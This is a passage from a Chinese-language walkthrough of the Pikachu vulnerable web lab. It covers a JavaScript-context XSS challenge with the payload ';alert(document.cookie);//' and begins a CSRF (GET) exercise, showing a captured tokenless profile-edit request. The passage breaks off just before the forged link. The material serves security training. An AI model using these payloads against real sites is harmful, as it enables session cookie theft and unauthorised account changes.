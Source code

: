 随意输入deedbeef后，发现被插入了js代码中

```html
<script>
    $ms='deedbeef';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }
    }
</script>
```

直接单引号闭合，构造恶意js，并且注释掉后面部分，payload如下

```
';alert(document.cookie);//
```

![pikachu31](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu31.png)

提交后，弹出cookie

# CSRF

## CSRF(get)

直接登录kobe账号，点击修改个人信息，修改一个手机号项如下

![pikachu32](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu32.png)

提交时抓包，请求包内容如下

```http
GET /vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=10086&add=nba+lakes&email=kobe%40pikachu.com&submit=submit HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/csrf/csrfget/csrf_get_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jd3540v9nsn5a332185ddutcek
Connection: close
```

可以看到get请求中并没有防CSRF的token，直接构造恶意链接修改信息为(boy,12580,usa,admin@admin.cn),如下
